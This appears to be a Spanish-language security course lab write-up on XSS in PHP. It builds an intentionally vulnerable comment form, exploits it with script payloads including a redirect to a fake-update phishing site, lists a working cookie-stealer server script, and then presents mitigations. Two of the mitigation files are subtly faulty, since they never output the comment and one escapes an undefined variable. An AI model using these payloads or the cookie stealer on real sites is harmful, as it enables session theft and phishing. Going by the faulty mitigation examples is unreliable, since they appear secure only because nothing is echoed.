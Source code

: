 # PPS-Unidad3Actividad5-XSS

## Creación de página vulnerable

Partiendo del entorno de pruebas de la actividad 1 en la carpeta `www` creamos el directorio `xss` que contendrá el fichero `comment.php` con el siguente contenido:

```
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
```

El codigo muestra un formulario simple sin securizar el cual explotaremos.

![comment php](images/comment-php.png)


## Explotación XSS

### Explotación 1

En el formulario introducimos el siguiente código JS para ejemplificar que el formulario no está securizado:
```
<script>alert('XSS ejecutado!')</script>
```

Al enviar el formulario se mostrá un alert.

![alert comment php](images/alert-comment-php.png)

### Explotación 2

Con el siguiente código se redireccionará a una página de phishing:
```
<script>window.location='https://fakeupdate.net/win11/'</script>
```

![comment phishing](images/comment-phishing.png)

![comment phishing 2](images/comment-phishing-2.png)

## Captura cookie usuario

Creamos en el servidor web una carpeta con nombre `cookiestealer`, el cual contendrá elfichero `cookies.txt` que almacenará la cookie y el fichero `index.php` con el siguiente código encargado de capturar y guardar la cookie de sesión:

```
<?php
// Obtener la fecha actual
$date = date("Y/m/d H:i:s");

// Obtener la dirección IP, User Agent y Referer
$ip = $_SERVER['REMOTE_ADDR'];
$user_agent = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : 'No User Agent';
$referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : 'No Referer';

// Obtener el parámetro 'cookie' de la URL
$cookie = isset($_GET['cookie']) ? $_GET['cookie'] : 'No Cookie Provided';

// Escapar las variables para evitar inyecciones de código
$cookie = htmlspecialchars($cookie, ENT_QUOTES, 'UTF-8');
$user_agent = htmlspecialchars($user_agent, ENT_QUOTES, 'UTF-8');
$referer = htmlspecialchars($referer, ENT_QUOTES, 'UTF-8');

// Intentar abrir el archivo de registro
$file = fopen("cookies.txt", "a");

if ($file === false) {
    // Si no se puede abrir el archivo, responder con error
    echo json_encode(["status" => 500, "message" => "Error opening file"]);
    exit();
}

// Escribir la información en el archivo
fwrite($file, "[+] Date: {$date}\n[+] IP: {$ip}\n[+] UserAgent: {$user_agent}\n[+] Referer: {$referer}\n[+] Cookies: {$cookie}\n---\n");

// Cerrar el archivo
fclose($file);

// Responder con un JSON de éxito
echo json_encode(["status" => 200]);
?>
```

![cookiestealer files](images/cookiestealer-files.png)

Acedemos a la URL 

## Mitigación ataque XSS

Filtra caracteres problemáticos empleando la función PHP `filter_input()`.

Creamos el fichero `comment2.php` con el siguiente código:

```
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
```

Accedemos al fichero que hemos creado desde el navegador y ejecutamos uno de los scripts anteriores, vemos como no se han ejecutado.

![comment2](images/coment2.png)


## Sanitizar la entrada con htmlspecialchars()

Creamos el fichero `comment3.php` con el siguiente código:
```
<?php
if (isset($_POST['comment'])) {
        // para manejar el caso de que no se haya enviado ningún comentario
    // htmlspecialchars convierte caracteres especiales en equivalentes html
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
```
Empleado la función PHP `htmlspecialchars()` convierte los carácteres especiales en código HTML evitando la ejecución de scripts.

![comment3](images/comment3.png)

## Protección contra inyecciones HTML y JS (XSS)

Limitar el código HTML que el usuario puede introducir, en este caso solo permite algunas etiquetas:

```
$comment = strip_tags($_POST['comment'], '<b><i>');
```

### Código Seguro

Creamos el archivo `comment4.php` con todas las mitigaciones:

```
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}
session_start();
// Generar token CSRF si no existe
if (!isset($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        // Verificar el token CSRF
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !==$_SESSION['csrf_token']) {
                die("Error: Token CSRF inválido.");
        }// Verificar si el comentario ha sido enviado
        // Obtener y sanitizar el comentario
        $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
        $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
    // Validación de longitud y evitar comentarios vacíos.
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Comentarios Seguros</title>
</head>
<body>
        <form method="post">
                <label for="comment">Escribe tu comentario:</label>
                <input type="text" name="comment" id="comment" required maxlength="500">
                <input type="hidden" name="csrf_token" value="<?php echo
$_SESSION['csrf_token']; ?>">
                <button type="submit">Enviar</button>
        </form>
</body>
</html>
```

Podemos observar que ha eliminado y transformado varios de los carácteres del script que pasamos a través del comantario.

![alt text](images/mitigacion.png)
